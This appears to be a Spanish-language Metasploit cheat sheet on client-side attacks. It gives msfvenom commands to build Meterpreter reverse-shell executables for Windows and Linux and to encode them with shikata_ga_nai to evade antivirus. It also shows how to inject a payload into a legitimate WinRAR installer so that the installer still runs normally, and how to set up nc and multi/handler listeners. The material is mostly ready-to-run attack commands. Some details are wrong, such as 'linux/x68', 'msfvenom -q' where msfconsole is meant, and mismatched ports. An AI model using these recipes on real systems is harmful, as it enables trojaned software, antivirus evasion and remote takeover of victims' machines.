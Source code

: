 # Ataques del lado del cliente con Metasploit 

Tags: #Metasploit #Msfvenom #Encode #Payloads #Shellcode #AntiVirus #InjectPayloads #Automatizar

* Client-Side Attacks: Es un vector de ataque hace que un cliente ejecute un payload malicioso en su sistema que consecuentemente hará una conexión trasera con un atacante cuando sea ejecutado. Utiliza documentos o archivos ejecutables. 

## Msfvenom Payloads

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Para Windows 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx86.exe

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (exe, war, etc...)

❯ msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx64.exe
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                 # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx86

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (elf, exe, war, etc...) y podemos o no agregarle la extension 

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx64
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                   # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Encodear Payload con MSF

* Se utiliza el encodeamiento de los payload ya que los atacantes después de transferir y almacenar los payloads maliciosos en los discos duros de los clientes, los atacantes necesitan estar consientes de la detección de los Antivirus (AV).  Los usuarios finales de soluciones de AV utilizan detección basada en orden para identificar archivos o ejecutables maliciosos. Podemos evadir los AV encodeando nuestros payloads. Encodear es un proceso de modificar el Shellcode del payload con el objetivo de modificar la firma del payload. 

* Shellcode: Es una pieza de código típicamente usada como un payload para explotación. 

```bash 
❯ msfconsole --list encoders               # Lista de encoders
```

### Para Windows 

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe
	# e = Nombre del encoder 


❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/Desktop/encodex86

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                   # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


---

## Inyectar Payload dentro de ejecutables portables de Windows 

```bash 
1. Debemos descargar un archivo ejecutable de Google (WinRAR = wrar6.exe)
```

```bash 
# Creamos el payload y se lo pasamos a un archivo ejecutable 'confiable'
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# x = Especificar el archivo ejecutable para usar como plantilla (No inicia el proceso del archivo ejecutable)

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# k = Preserva la plantilla con el comportamiento original del ejecutable y ademas inyecta el payload (Inicia normal el proceso del archivo ejecutable)
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```
